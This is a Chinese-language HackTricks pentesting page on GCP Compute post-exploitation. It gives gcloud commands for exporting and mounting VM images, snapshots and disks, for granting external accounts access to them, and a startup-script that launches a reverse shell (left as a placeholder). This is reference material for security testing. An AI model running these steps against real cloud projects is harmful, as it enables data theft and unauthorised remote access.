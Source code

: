 # GCP - 计算后渗透

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

- 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
- 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
- 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[NFT收藏品](https://opensea.io/collection/the-peass-family)
- **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**。**
- 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## 计算

有关计算和VPC（网络）的更多信息，请查看：

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### 导出和本地检查镜像

这将允许攻击者**访问已存在镜像中包含的数据**或**创建正在运行的VM的新镜像**并访问其数据，而无需访问正在运行的VM。

可以将VM镜像导出到存储桶，然后使用以下命令下载并在本地挂载：

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

在执行此操作之前，攻击者可能需要对存储桶拥有权限，当然还需要对**cloudbuild拥有权限**，因为它是将被要求执行导出的**服务**\
此外，为了使此操作生效，codebuild SA和compute SA需要特权权限。\
cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` 需要:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

而SA `<project-id>-compute@developer.gserviceaccount.com` 需要:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### 导出并本地检查快照和磁盘

无法直接导出快照和磁盘，但可以**将快照转换为磁盘，磁盘转换为映像**，然后根据**上一节**的步骤，导出该映像以在本地检查
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### 检查创建虚拟机的镜像

为了访问**存储在镜像中的数据**或者**在运行的虚拟机内部**，攻击者可以通过授予外部帐户对该镜像的访问权限来实现：
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
然后从中创建一个新的虚拟机：
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
如果无法通过镜像为外部帐户提供访问权限，您可以在受害者项目中使用该镜像启动虚拟机，并使元数据执行反向 shell 以访问该镜像，添加参数：
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### 检查快照/磁盘并将其附加到虚拟机

为了访问**存储在磁盘或快照中的数据，您可以将快照转换为磁盘，磁盘转换为映像，然后按照之前的步骤进行操作。**

或者，您可以**授予外部帐户对磁盘的访问权限**（如果起点是快照，则授予对快照的访问权限或从快照创建磁盘）：
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**将磁盘**附加到实例：
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
在VM内挂载磁盘：

1. **SSH登录VM**：

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **识别磁盘**：进入VM后，通过列出磁盘设备来识别新磁盘。通常可以在`/dev/sdb`、`/dev/sdc`等位置找到它。
3. **格式化和挂载磁盘**（如果是新的或原始磁盘）：
*   创建挂载点：

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   挂载磁盘：

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

如果**无法将快照或磁盘授予外部项目访问权限**，您可能需要在与快照/磁盘相同项目中的实例内执行这些操作。
